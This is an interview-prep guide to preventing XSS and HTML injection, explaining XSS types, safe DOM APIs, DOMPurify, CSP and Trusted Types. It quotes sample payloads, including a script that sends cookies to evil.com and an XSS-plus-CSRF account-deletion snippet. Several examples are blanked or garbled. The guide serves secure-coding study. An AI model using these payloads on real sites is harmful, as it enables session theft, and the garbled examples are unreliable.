


## Keywords in This File
{: .no_toc }

| # | Keyword | Weight |
|---|---|---|
| 1 | [HTML Injection and XSS Prevention](#html-injection-and-xss-prevention) | very |

---

# HTML Injection and XSS Prevention

🎯 **Interview Weight:** very high (★★☆) - XSS is the most
common frontend security vulnerability; any senior engineer
must know it cold

---

### 🎯 Model Answer

**30 seconds:**

> XSS (Cross-Site Scripting) happens when an attacker's JavaScript
> runs in a victim's browser in the context of your site. The
> three types: Reflected (payload in URL, reflected in response),
> Stored (payload saved to DB, rendered for all users), DOM-based
> (payload in URL fragment processed by client-side JS). The fix:
> never insert untrusted content as HTML. Use textContent instead
> of innerHTML. Use DOMPurify to sanitize when HTML rendering is required.

**3 minutes (Senior):**

> XSS has one root cause: treating untrusted user-controlled data as
> trusted markup. Every time untrusted data touches an HTML
> rendering pathway, there's potential for injection.
>
> The rendering pathways that cause XSS:
> - `element.innerHTML = userInput` → classic HTML injection
> - `document.write(userInput)` → write injects markup
> - `eval(userInput)` or `new Function(userInput)` → JS execution
> - `element.href = 'javascript:' + userInput` → JS URL
> - Server-side template rendering without escaping
>
> Prevention requires defense in depth:
> 1. Output encoding: escape HTML entities in templates
> 2. Use textContent not innerHTML for text-only insertions
> 3. Sanitize when HTML is required (DOMPurify)
> 4. Content Security Policy: blocks inline scripts even if injected
> 5. `HttpOnly` cookies: stolen cookies can't be used if XSS occurs
>
> The DOM-based XSS variant is often missed: the server does
> everything correctly but the client reads `location.hash` or
> `location.search` and passes it directly to `innerHTML`.
> This is a client-side only vulnerability - server logs show no
> attack. Sanitize URL parameters in client-side code.

*Adapting up:* Discuss Trusted Types API (Chrome), subresource
integrity (SRI), mutation XSS (mXSS), and JSON injection via
JSONP endpoints.

*Adapting down:* XSS is when a hacker adds `<script>` tags to
your page by putting them in input fields or URLs that your site
displays.

**Blank Mind Recovery:**

**(1) Restate:** "XSS = attacker's JavaScript runs on your site.
Prevention: never put user input directly into innerHTML."

**(2) First principles:** "The browser trusts all JavaScript
that runs in the page's origin. XSS exploits this trust by getting
malicious code into the origin's execution context."

**(3) Bridge:** "XSS is like someone writing JavaScript in the
comment box that your site then runs for all visitors."

---

### 📘 Concept Explanation

**What it is:**

Cross-Site Scripting (XSS) is an injection vulnerability where
an attacker's JavaScript code executes in a victim's browser
within the context of a legitimate web application. HTML Injection
is the broader class: any unintended HTML markup inserted into a page.

**The problem it solves (attacker perspective):**

XSS allows: session cookie theft (bypassing Same-Origin Policy),
credential phishing (inject fake login form), keylogging (capture
typed passwords), account takeover, malware distribution,
DOM manipulation (change page content for specific user).

**How it works:**

```
XSS TYPES:

TYPE 1 - REFLECTED XSS:
  1. Attacker crafts URL with payload:
     https://shop.com/search?q=<script>evil()</script>
  2. Server reflects q parameter into HTML response:
     <h1>Search: <script>evil()</script></h1>
  3. Browser executes script
  4. Attack requires user to click the malicious link

  Server-side vulnerability - fix: encode output in template
  Node.js/Express example:
    BAD:  res.send('<h1>' + req.query.q + '</h1>');
    GOOD: res.send('<h1>' + escapeHtml(req.query.q) + '</h1>');
    escapeHtml: < → &lt;  > → &gt;  & → &amp;  " → &quot;

TYPE 2 - STORED XSS (most dangerous):
  1. Attacker submits payload in a comment/profile/post:
     "Great article! <script>stealCookies()</script>"
  2. Server stores it in DB
  3. Server renders it for EVERY visitor
  4. All visitors execute attacker's script

  Fix: sanitize on INPUT (strip tags before DB) and/or
       encode on OUTPUT (escape when rendering)
  Prefer: encode on output (safer - DB stores original data)

TYPE 3 - DOM-BASED XSS:
  Client-side code reads attacker-controlled input:
  // VULNERABLE:
  const search = location.search.split('q=')[1];
  document.getElementById('result').innerHTML = search;
  // URL: page.html?q=
  // innerHTML inserts the img with onerror → XSS

  Server plays NO role - server logs are clean
  Fix: use textContent instead of innerHTML
       or sanitize with DOMPurify

HTML INJECTION (non-script):
  // Even without <script> tags, HTML injection is harmful:
  // 
  // <a href="javascript:evil()">Click here</a>
  // <input autofocus onfocus="evil()">
  // <form action="https://evil.com">
  // <meta http-equiv="refresh" content="0;url=evil.com">
  // <style>body{background:url('javascript:evil()')}</style>

SAFE DOM MANIPULATION:
  const input = getUserInput();

  // UNSAFE - injects arbitrary HTML:
  element.innerHTML = input;
  element.outerHTML = input;
  document.write(input);
  $(element).html(input);  // jQuery

  // SAFE - treats as text, never HTML:
  element.textContent = input;  // replaces text content
  element.innerText = input;    // same (+ handles display:none)

  // SAFE DOM APIS (no innerHTML):
  const text = document.createTextNode(input);
  element.appendChild(text);

  // SAFE attribute setting:
  element.setAttribute('data-value', input);  // SAFE
  element.href = input;  // UNSAFE for javascript: URLs!

  // SAFE href check:
  function setSafeHref(el, url) {
    const parsed = new URL(url, window.location.origin);
    if (!['http:', 'https:'].includes(parsed.protocol)) {
      el.href = '#';
      return;
    }
    el.href = url;
  }

SANITIZATION WITH DOMPURIFY:
  // Install: npm install dompurify
  import DOMPurify from 'dompurify';

  // Sanitize user HTML before inserting:
  const clean = DOMPurify.sanitize(dirtyHtml, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'li'],
    ALLOWED_ATTR: ['href', 'target'],
    ALLOW_DATA_ATTR: false
  });
  element.innerHTML = clean;

  // DOMPurify removes:
  // <script> tags, event handlers (onclick, onerror),
  // javascript: URLs, data: URLs with scripts,
  // SVG script elements, HTML imports

TRUSTED TYPES (Chrome - preventing DOM XSS):
  // Policy: defines what's safe to set as innerHTML
  const policy = trustedTypes.createPolicy('default', {
    createHTML(input) {
      // Only sanitize here - browser enforces this
      return DOMPurify.sanitize(input);
    }
  });

  // Now innerHTML requires a TrustedHTML object:
  element.innerHTML = policy.createHTML(userInput);
  // element.innerHTML = userInput → TypeError (rejected)

  // Enable via CSP header:
  // Content-Security-Policy: require-trusted-types-for 'script'
```

> **Code walkthrough:** This example demonstrates the core pattern in action. The key mechanism shows how the concept works in practice. Study the structure to understand the essential behavior and common usage.

**The key insight:**

Content Security Policy (CSP) is the defense-in-depth layer that
limits XSS impact even if sanitization fails. `Content-Security-Policy: script-src 'self'`
blocks inline scripts and scripts from other origins. An XSS
payload that injects `<script>alert(1)</script>` is blocked by
CSP even though the script was injected. CSP doesn't replace
sanitization - it's the last line of defense.

**When to use it:**

Always sanitize user input before rendering as HTML. Prefer
textContent over innerHTML for text insertion. Use DOMPurify when
rich text rendering is required. Always set CSP headers. Set
`HttpOnly` on session cookies to prevent theft via XSS.

**When NOT to use it:**

There is no "don't use XSS prevention." All user-controlled data
must be sanitized before rendering.

**Alternatives:**

- Template literals with `escapeHtml` → for simple server-side
- React, Vue, Angular → auto-escape in templates by default
  (JSX does NOT use `dangerouslySetInnerHTML` for user input)
- Server-side template engines → use auto-escaping mode

**First-principles derivation:**

Browsers execute all JavaScript in a page's origin with full
access to the DOM, cookies, and localStorage. There is no
"untrusted JavaScript" once it runs. XSS works by exploiting the
browser's trust in the origin. Prevention requires eliminating
all code execution pathways for user-controlled data before it
reaches the browser's execution context.

---

### 💻 Code Example

**XSS vulnerability and fix**

```html
<!-- BAD: vulnerable search results page -->
<script>
  // URL: /search?q=<script>alert(document.cookie)</script>
  const params = new URLSearchParams(window.location.search);
  const query = params.get('q');
  // VULNERABLE: inserts raw HTML from URL parameter
  document.getElementById('results-title').innerHTML =
    'Results for: ' + query;
  // Attacker sees all your cookies
</script>
```

> **Code walkthrough:** This example demonstrates the core pattern in action. The key mechanism shows how the concept works in practice. Study the structure to understand the essential behavior and common usage.

```javascript
// GOOD: safe content insertion with HTML escaping
function escapeHtml(str) {
  const div = document.createElement('div');
  div.appendChild(document.createTextNode(str));
  return div.innerHTML;  // browser escapes for us
}

// Or use textContent (better for text-only):
const query = params.get('q') || '';
document.getElementById('results-title').textContent =
  'Results for: ' + query;
// textContent treats everything as text, never HTML

// GOOD: sanitize when HTML rendering is required
import DOMPurify from 'dompurify';

function renderUserComment(commentHtml) {
  const clean = DOMPurify.sanitize(commentHtml, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'br'],
    ALLOWED_ATTR: ['href'],
    // Force external links to open safely:
    FORCE_BODY: true,
    ADD_ATTR: ['target', 'rel']
  });
  container.innerHTML = clean;
}

// Post-process to secure external links:
container.querySelectorAll('a').forEach(link => {
  if (link.hostname !== window.location.hostname) {
    link.setAttribute('target', '_blank');
    link.setAttribute('rel', 'noopener noreferrer');
  }
  // Block javascript: URLs that slip through:
  if (link.protocol === 'javascript:') {
    link.href = '#';
    link.removeAttribute('onclick');
  }
});
```

> **Code walkthrough:** The vulnerable version takes the `q`
> URL parameter and inserts it directly into `innerHTML`, allowing
> an attacker to inject any HTML or JavaScript. The fix uses
> `textContent` for plain text (which the browser treats as text,
> never markup). When HTML rendering is needed (user comment
> with formatting), DOMPurify sanitizes the input - stripping
> script tags, event handlers, and javascript: URLs - before
> innerHTML insertion. The post-processing step adds `rel="noopener noreferrer"`
> to external links, preventing the new tab from accessing the
> opener's window object (another XSS vector).

---

### 🎓 Answers by Seniority

**Junior / Mid:**

> XSS is when attacker JavaScript runs on your site. Use
> `textContent` instead of `innerHTML` for user content.
> When you need HTML (rich text), use DOMPurify to sanitize
> before innerHTML. Never use `document.write`. The three
> types: reflected (in URL), stored (in DB), DOM-based (URL
> parameter processed by client JS).

---

**Senior / Staff:**

> Defense in depth: textContent for text, DOMPurify for rich
> text, Content Security Policy as last resort. CSP stops XSS
> that bypasses sanitization. `script-src 'self'` blocks inline
> scripts and third-party scripts. React's JSX auto-escapes
> by design - `{userInput}` never injects HTML. `dangerouslySetInnerHTML`
> should trigger a code review. At scale, Trusted Types API in
> Chrome forces all innerHTML assignments to go through a policy
> function, making it impossible to accidentally bypass sanitization.

---

### ⚠️ Common Misconceptions

**"React protects me from XSS automatically"**

React escapes `{variable}` in JSX by default. But three React
patterns cause XSS:
1. `dangerouslySetInnerHTML={{ __html: userInput }}` → full XSS
2. `<a href={userInput}>` → javascript: URL injection
3. Using `eval()` or `new Function()` with user data

React does NOT sanitize href, src, or other attribute values
that take URLs. Always validate URLs before setting as href.

**"Sanitizing on input is enough"**

Sanitizing on input and storing clean HTML in the DB means: if
your sanitization logic has a bug (many do), the DB contains
permanently malicious data with no way to re-clean it. Sanitize
on OUTPUT: store the original content, sanitize when rendering.
This allows updating the sanitization rules to fix past bugs.

---

### 🚨 Failure Modes and Diagnosis

**Symptom: XSS payload executes despite sanitization**

```
Root cause: mutation XSS (mXSS)
  Some sanitizers produce output that appears clean but
  the browser's HTML parser mutates it into executable JS.

  Example:
  DOMPurify < 2.0 was vulnerable to:
  <noscript><p title="</noscript>">

  Parser mutation:
  Input (sanitized, "safe")  → browser parser → XSS execution

  Fix: always use LATEST DOMPurify version
  DOMPurify has a mature track record + active maintenance

Root cause: sanitizer bypass via encoding
  Input: <scr&#x69;pt>evil()</scr&#x69;pt>
  HTML decode: <script>evil()</script>
  If sanitizer runs BEFORE HTML decode: bypassed

  Fix: always HTML-decode before sanitizing
  In browser: let the DOM parse once then sanitize

Root cause: CSS injection
  Input: }" onmouseover="evil()
  If inserted into a CSS context: triggers XSS
  // <style>.user-{userInput}</style>

  Fix: CSS escaping for CSS contexts (different from HTML escaping)
  CSS escape: \HEX for special characters

Diagnosis:
  Test with OWASP XSS Test Strings:
  <script>alert('XSS')</script>
  
  javascript:alert(1)
  <svg onload=alert(1)>
  "><script>alert(1)</script>

  CSP violation report:
  Content-Security-Policy-Report-Only: script-src 'self';
    report-uri /csp-report
  Gives visibility without blocking (for audit phase)
```

> **Code walkthrough:** This example demonstrates the core pattern in action. The key mechanism shows how the concept works in practice. Study the structure to understand the essential behavior and common usage.

---

### 🎯 Interview Deep-Dive

| Scenario | Recommended Time | Key Signal |
|---|---|---|
| Three types of XSS | 3 min | Reflected/Stored/DOM |
| innerHTML vs textContent | 2 min | Root prevention |
| DOMPurify usage | 2-3 min | Sanitization API |
| DOM-based XSS | 2-3 min | Client-side only |
| javascript: URL prevention | 2 min | URL validation |
| CSP for XSS defense-in-depth | 3 min | Last line defense |
| Trusted Types API | 2-3 min | Enforcement mechanism |
| React XSS vectors | 2-3 min | Framework-specific |
| HttpOnly + XSS relationship | 2 min | Cookie protection |
| mXSS / sanitizer bypasses | 3 min | Advanced attacks |
| XSS in rich text editors | 3-4 min | Real-world problem |
| Stored vs output sanitization | 2 min | Strategy choice |

---

**Q1: What are the three types of XSS?** `[JUNIOR]` DEFINITION

*Why they ask:* Classification is baseline knowledge.

*Likely follow-up:* "Which type is hardest to detect in server logs?"

> **Answer:**
>
> **Reflected XSS:**
> The payload is in the URL and the server "reflects" it back
> in the response without sanitization.
>
> ```
> URL: https://site.com/search?q=<script>evil()</script>
> Server response: <h1>Results for <script>evil()</script></h1>
> Execution: browser runs evil() when rendering the page
> ```
>
> Vector: attacker sends victim a malicious link (phishing email,
> social media post). Works once per visit - not persistent.
> Visible in server logs (payload in URL).
>
> **Stored XSS:**
> The payload is stored in a database and rendered for multiple users.
>
> ```
> Attacker posts comment: "Nice! <script>stealToken()</script>"
> DB stores: "Nice! <script>stealToken()</script>"
> Every visitor: browser executes stealToken()
> ```
>
> Most dangerous: affects ALL users viewing the content.
> Visible in server logs at write time (less obvious).
>
> **DOM-based XSS:**
> The payload exists in the URL but is processed ONLY by client-side
> JavaScript (server never sees it).
>
> ```javascript
> // Client reads URL fragment (never sent to server):
> const id = location.hash.slice(1);
> document.querySelector('.section').innerHTML = id;
> // URL: page.html#
> ```
>
> Fragment (#...) is not sent to the server. Server logs are
> completely clean. Only detectable in client-side monitoring.
>
> Which is hardest to detect in logs: DOM-based XSS. The fragment
> is never sent to the server. Without client-side monitoring,
> there is no server-side record of the attack.
>
> *What separates good from great:* DOM-based XSS sources go
> beyond just `location.hash`. Any browser-provided data can be
> attacker-controlled: `document.referrer`, `window.name`,
> `postMessage` data, `localStorage` (if written by attacker),
> `IndexedDB` data, WebSocket messages. Client-side code that
> takes ANY of these and puts them into `innerHTML` is vulnerable
> to DOM-based XSS regardless of server-side sanitization.

---

**Q2: What is the difference between `innerHTML` and `textContent`
for XSS prevention?** `[JUNIOR]` COMPARISON

*Why they ask:* The single most important XSS prevention choice.

*Likely follow-up:* "When is it safe to use innerHTML?"

> **Answer:**
>
> `innerHTML` and `textContent` differ in how they interpret
> the string being assigned:
>
> `innerHTML`:
> - Parses the string as HTML
> - HTML tags, attributes, event handlers are interpreted
> - `<b>bold</b>` → displays "bold" in bold
> - `<script>evil()</script>` → executes evil()
> - `` → executes evil()
>
> `textContent`:
> - Treats the string as pure text
> - HTML characters are displayed as literals
> - `<script>evil()</script>` → displays literal text: `<script>evil()</script>`
> - No HTML parsing, no execution
>
> ```javascript
> const userInput = '';
>
> // UNSAFE:
> element.innerHTML = userInput;
> // Displays broken image, executes alert(document.cookie)
>
> // SAFE:
> element.textContent = userInput;
> // Displays: 
> // As literal text, no execution
> ```
>
> When is innerHTML safe:
> - NEVER with unsanitized user input
> - With sanitized input (via DOMPurify)
> - With hardcoded developer-controlled strings (no user data)
> - With content from trusted CMS where output is already encoded
>
> `innerText` vs `textContent`:
> - `innerText` is aware of `display: none` (skips hidden text)
> - `textContent` returns ALL text including hidden
> - For security: both are safe (both treat as text)
> - Performance: `textContent` is slightly faster
>
> *What separates good from great:* `innerHTML` causes a full
> HTML parse + DOM modification + style recalculation. `textContent`
> is a single text node update. For large amounts of dynamic text
> (search results, live feeds), using `textContent` consistently
> is both safer AND faster. The security benefit is a byproduct
> of the correct API choice.

---

**Q3: How does Content Security Policy prevent XSS?** `[SENIOR]`
MECHANISM

*Why they ask:* CSP is the defense-in-depth layer.

*Likely follow-up:* "What is a CSP nonce and why is it needed?"

> **Answer:**
>
> Content Security Policy (CSP) is an HTTP response header that
> controls what content the browser is allowed to execute.
>
> Without CSP:
> ```html
> <!-- If attacker injects this into your page: -->
> <script>document.location='https://evil.com?c='+document.cookie</script>
> <!-- Browser executes it because it's on your origin -->
> ```
>
> With strict CSP:
> ```
> Content-Security-Policy: script-src 'self'
> ```
> - Inline `<script>` tags: BLOCKED (no `'unsafe-inline'`)
> - External scripts from other origins: BLOCKED
> - The injected script above: BLOCKED even though injected
>
> How it stops XSS:
> 1. Injected `<script>` tags: blocked by `script-src 'self'`
>    (inline script needs `'unsafe-inline'` which negates XSS protection)
> 2. Injected event handlers: blocked by `script-src`
> 3. External script sources: only `'self'` allowed
>
> CSP nonce - for legitimate inline scripts:
> ```
> Header: Content-Security-Policy: script-src 'nonce-r4nd0m123' 'strict-dynamic'
> ```
> ```html
> <!-- Script with matching nonce is allowed: -->
> <script nonce="r4nd0m123">
>   // this runs (nonce matches CSP)
>   initApp();
> </script>
>
> <!-- Injected script WITHOUT nonce: blocked -->
> <script>evil()</script>
> ```
>
> The nonce must be:
> - Generated server-side per request (not hardcoded)
> - Cryptographically random (at least 128 bits)
> - Different every page load (to prevent nonce reuse)
>
> `'strict-dynamic'`: scripts loaded by trusted scripts are
> also trusted, enabling dynamic imports from nonce'd scripts.
>
> Reporting:
> ```
> Content-Security-Policy-Report-Only: script-src 'self';
>   report-uri /csp-violations
> ```
> Report-Only mode: logs violations without blocking.
> Use this BEFORE enforcing to find legitimate scripts.
>
> *What separates good from great:* CSP is the "defense-in-depth"
> that makes other XSS vulnerabilities survivable. Even if a
> sanitization bug allows script injection, CSP blocks execution.
> The challenge: most sites use many third-party scripts (analytics,
> ads, chat) which require complex CSP policies. A strict
> nonce-based CSP with no `'unsafe-inline'` is the strongest
> configuration. Getting from zero to strict CSP on an existing
> site requires auditing ALL scripts and using Report-Only mode
> to catch legitimate scripts before enforcing.

---

**Q4: What is DOM-based XSS and how is it different from reflected XSS?**
`[SENIOR]` MECHANISM

*Why they ask:* DOM-based XSS is systematically under-mitigated.

*Likely follow-up:* "What are common DOM XSS sources other than location.hash?"

> **Answer:**
>
> In reflected XSS, the server is the vulnerability: the server
> includes unescaped input in the HTML response. Fix: server-side
> output encoding.
>
> In DOM-based XSS, the CLIENT is the vulnerability: client-side
> JavaScript reads attacker-controlled data and writes it to the
> DOM without sanitization. The server is never involved.
>
> ```
> DOM XSS Flow:
>   Source: location.hash → #
>   (Never sent to server - not in server logs)
>   ↓
>   Sink: document.querySelector('#search').innerHTML = hash
>   ↓
>   Browser: parses HTML, executes event handler → XSS
> ```
>
> Common DOM XSS sources (attacker-controlled data):
> ```javascript
> location.search       // URL ?parameter
> location.hash         // URL #fragment (NEVER to server)
> location.href         // full URL
> document.referrer     // referring URL
> window.name           // persists across navigations
> localStorage          // if written elsewhere by attacker
> sessionStorage
> postMessage event.data // from other frames/origins
> IndexedDB data
> WebSocket messages    // from potentially compromised server
> ```
>
> Common DOM XSS sinks (dangerous DOM operations):
> ```javascript
> element.innerHTML = source;      // HTML injection
> element.outerHTML = source;
> document.write(source);
> document.writeln(source);
> eval(source);                    // JS execution
> setTimeout(source, 0);           // JS string execution
> setInterval(source, 0);
> new Function(source);
> element.src = source;            // if javascript: URL
> element.href = source;           // if javascript: URL
> ```
>
> Detection: SAST tools (eslint-plugin-security) flag uses of
> sinks with potentially-tainted sources. Browser DevTools:
> Performance recording shows DOM manipulation chains.
>
> *What separates good from great:* `window.name` is a frequently
> overlooked DOM XSS source. If a user navigates FROM a page
> where an attacker set `window.name = ''`
> TO your page, and your page does `document.body.innerHTML = window.name`,
> you have a DOM XSS. `window.name` persists across navigation
> within the same tab. Taint tracking in browser DevTools (Chrome
> DevTools security audits) can detect source-to-sink flows.

---

**Q5: How do you prevent XSS in href attributes?** `[SENIOR]`
MECHANISM

*Why they ask:* Attribute-level XSS is less obvious.

*Likely follow-up:* "What is the javascript: protocol?"

> **Answer:**
>
> Setting user-controlled data as the `href` attribute allows
> `javascript:` URL XSS:
>
> ```html
> <!-- User provides URL: javascript:alert(document.cookie) -->
> <a href="javascript:alert(document.cookie)">Click me</a>
> <!-- Clicking: executes alert(document.cookie) in current origin -->
> ```
>
> `javascript:` URLs execute code in the page's origin when
> the user clicks (or navigates to them). This bypasses many
> filters that look for `<script>` tags.
>
> Prevention:
> ```javascript
> function setSafeHref(element, url) {
>   try {
>     const parsed = new URL(url, window.location.href);
>     const allowedProtocols = ['http:', 'https:', 'mailto:'];
>     if (!allowedProtocols.includes(parsed.protocol)) {
>       // Block: javascript:, data:, vbscript:, etc.
>       element.href = '#';
>       element.removeAttribute('href');
>       console.warn('Blocked unsafe URL:', url);
>       return;
>     }
>     element.href = url;
>   } catch {
>     // Invalid URL
>     element.removeAttribute('href');
>   }
> }
>
> // Usage:
> setSafeHref(linkElement, userProvidedUrl);
>
// React: also vulnerable if href is dynamic:
// WRONG:
// <a href={userUrl}>Link</a>
// React does NOT validate href protocol in JSX

// CORRECT in React:
// function SafeLink({ href, children }) {
//   const url = (() => {
//     try {
//       const u = new URL(href, window.location.href);
//       return ['http:','https:'].includes(u.protocol) ? href : '#';
//     } catch { return '#'; }
//   })();
//   return <a href={url}>{children}</a>;
// }
```

> Other dangerous attribute injection contexts:
> ```
>        → can be: data:,javascript:
> <iframe src="...">                  → frame injection
> <link rel="stylesheet" href="..."> → CSS injection
> <form action="...user input...">   → redirect
> <meta http-equiv="refresh" content="0;url=..."> → redirect
> <object data="...">
> ```
>
> DOMPurify handles href sanitization by blocking javascript: URLs.
> When using DOMPurify, href attributes are sanitized.
>
> *What separates good from great:* The `data:` URL is as dangerous
> as `javascript:` in some contexts. `evil()</script>">` 
> doesn't execute in modern browsers (images can't execute scripts).
> But `<iframe src="data:text/html,<script>evil()</script>">` 
> does create a browsing context that runs in the null origin.
> The safest rule: only allow `http:` and `https:` URLs for
> user-provided link targets. No exceptions.

---

**Q6: What is the Trusted Types API?** `[SENIOR]` MECHANISM

*Why they ask:* Modern XSS prevention at the enforcement layer.

*Likely follow-up:* "How do you enable Trusted Types via CSP?"

> **Answer:**
>
> Trusted Types (Chrome 83+, Edge 83+) is a browser API that
> enforces that all dangerous DOM sinks (innerHTML, eval, etc.)
> ONLY receive values that were processed through a trusted policy.
>
> Without Trusted Types: any string can be passed to innerHTML:
> ```javascript
> element.innerHTML = userInput;  // works, even if dangerous
> ```
>
> With Trusted Types enabled (via CSP):
> ```javascript
> element.innerHTML = userInput;  // TypeError! String not TrustedHTML
> ```
>
> The enforcement ensures that code reaching innerHTML MUST go
> through a policy function:
> ```javascript
> // Create a policy that sanitizes:
> const sanitizerPolicy = trustedTypes.createPolicy('sanitize', {
>   createHTML(input) {
>     return DOMPurify.sanitize(input, {
>       RETURN_TRUSTED_TYPE: true
>     });
>   },
>   createScriptURL(url) {
>     const parsed = new URL(url);
>     if (parsed.hostname !== 'cdn.mysite.com') {
>       throw new Error('Blocked script URL: ' + url);
>     }
>     return url;
>   }
> });
>
> // All innerHTML must use the policy:
> element.innerHTML = sanitizerPolicy.createHTML(userInput);
> // Returns TrustedHTML object (passes browser check)
>
> // Direct string: rejected
> element.innerHTML = '<p>Hello</p>';  // TypeError
> ```
>
> Enable via CSP header:
> ```
> Content-Security-Policy: require-trusted-types-for 'script'
> ```
>
> In report-only mode first:
> ```
> Content-Security-Policy-Report-Only:
>   require-trusted-types-for 'script';
>   report-uri /tt-violations
> ```
>
> DOMPurify native Trusted Types support:
> ```javascript
> const clean = DOMPurify.sanitize(dirty, {
>   RETURN_TRUSTED_TYPE: true  // Returns TrustedHTML, not string
> });
> element.innerHTML = clean;  // Passes Trusted Types check
> ```
>
> *What separates good from great:* Trusted Types makes XSS
> prevention a COMPILE-TIME contract, not a runtime hope. Without
> it: any developer can accidentally add `element.innerHTML = data`
> and it works silently. With Trusted Types: the browser enforces
> that all innerHTML goes through the policy. It's a guarantee
> rather than a guideline. Google's own applications use Trusted Types
> extensively - Gmail, YouTube, Google Docs all enforce it.

---

**Q7: How does XSS differ from CSRF?** `[SENIOR]` COMPARISON

*Why they ask:* Classic security distinction.

*Likely follow-up:* "Can XSS bypass CSRF tokens?"

> **Answer:**
>
> XSS and CSRF are distinct vulnerabilities with different mechanics:
>
> **XSS (Cross-Site Scripting):**
> - Attacker's CODE runs on your site
> - Exploits the user's trust in the website
> - Can do anything JavaScript can do on that origin:
>   read cookies, read localStorage, make requests,
>   modify DOM, steal form data
> - Requires injecting code into your site
>
> **CSRF (Cross-Site Request Forgery):**
> - Attacker's SITE makes requests TO your site
> - Exploits your site's trust in the user's browser
> - The request carries the user's cookies automatically
> - Attacker cannot READ the response (only trigger actions)
> - Example: ``
>
> Key difference: XSS is code execution on your origin.
> CSRF is unauthorized request from another origin.
>
> ```
> XSS:
>   Attacker code (on your domain) → reads cookies, steals tokens
>
> CSRF:
>   Attacker page (different domain) → sends GET/POST to your API
>   User's browser attaches their session cookie automatically
> ```
>
> Can XSS bypass CSRF tokens? YES.
> A CSRF token in the page HTML is accessible via the DOM.
> ```javascript
> // XSS code can: read the CSRF token and use it
> const token = document.querySelector('[name="csrf-token"]').value;
> fetch('/api/delete-account', {
>   method: 'POST',
>   headers: { 'X-CSRF-Token': token },
>   credentials: 'include'
> });
> ```
> XSS defeats CSRF protection because XSS runs as the origin,
> with full access to all page content and cookies.
>
> `SameSite=Strict` cookies: prevents CSRF (cookie not sent on
> cross-site requests). Does NOT prevent XSS (XSS is on-site).
>
> *What separates good from great:* The full attack chain:
> XSS + CSRF = complete account takeover. Step 1: find XSS
> vulnerability in any part of the site. Step 2: use XSS to
> read the CSRF token. Step 3: use CSRF token to perform
> privileged actions. This is why XSS severity is HIGH even
> when "only" reflected on a low-traffic page - XSS defeats
> all other security controls that depend on code isolation.

---

**Q8: How do you prevent XSS in a rich text editor?** `[SENIOR]`
SCENARIO

*Why they ask:* Real-world engineering challenge.

*Likely follow-up:* "What does your sanitization pipeline look like?"

> **Answer:**
>
> Rich text editors (Quill, TipTap, ProseMirror, TinyMCE) produce
> HTML output. This HTML must contain user content AND formatting.
> This is the hardest XSS scenario: you MUST allow some HTML.
>
> Strategy:
>
> 1. Use allowlist-based sanitization (not blocklist):
> ```javascript
> const ALLOWED = {
>   tags: [
>     'p', 'br', 'b', 'i', 'u', 's', 'em', 'strong',
>     'h1', 'h2', 'h3', 'h4', 'ul', 'ol', 'li',
>     'blockquote', 'code', 'pre', 'a', 'img', 'figure'
>   ],
>   attributes: {
>     'a': ['href', 'title'],    // NOT target (add separately)
>     'img': ['src', 'alt', 'width', 'height']
>     // NOT: onload, onerror, onclick, etc.
>   }
> };
> // DOMPurify enforces allowlist:
> const clean = DOMPurify.sanitize(editorOutput, {
>   ALLOWED_TAGS: ALLOWED.tags,
>   ALLOWED_ATTR: Object.values(ALLOWED.attributes).flat(),
>   ALLOW_DATA_ATTR: false,     // no data-onX
> });
> ```
>
> 2. Sanitize AFTER the editor, BEFORE storage AND before
>    display (belt-and-suspenders):
>
> ```
> User types → Editor API (trusted) → sanitize → store in DB
>                                              → display sanitized
> ```
>
> 3. Post-process links:
> ```javascript
> const div = document.createElement('div');
> div.innerHTML = clean;
> div.querySelectorAll('a').forEach(a => {
>   // Add noopener for external links:
>   if (a.hostname !== location.hostname) {
>     a.rel = 'noopener noreferrer';
>     a.target = '_blank';
>   }
>   // Block non-http(s) protocols:
>   if (!['http:','https:'].includes(
